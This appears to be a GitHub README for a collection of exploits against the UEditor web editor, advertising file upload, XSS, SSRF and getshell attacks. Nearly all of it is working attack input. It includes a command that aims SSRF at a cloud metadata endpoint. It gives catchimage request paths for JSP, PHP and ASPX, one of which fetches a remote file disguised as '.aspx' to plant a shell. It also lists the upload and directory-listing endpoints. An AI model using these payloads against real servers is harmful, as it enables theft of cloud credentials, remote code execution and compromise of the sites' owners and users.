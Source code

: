 # ueditor_exp
This is a Compilation of ueditor exps like file upload 、xss 、ssrf 、getshell

ssrf:
python u_ssrf.py http://100.100.100.200/latest/meta-data/
<img width="1209" height="579" alt="image" src="https://github.com/user-attachments/assets/cd4ce304-4a83-4d79-bc70-75294bb520e5" />

JSP：
action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
action=catchimage&source[]= https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

PHP：
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/php/controller.php?action=catchimage&source[]=

ASPX
/ueditor/net/controller.ashx?action=catchimage
source%5B%5D=http%3A%2F%2Fx.x.x.x/1.gif?.aspx

Upload Path：
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile
/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile
/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage
/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage

list directory path:
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage

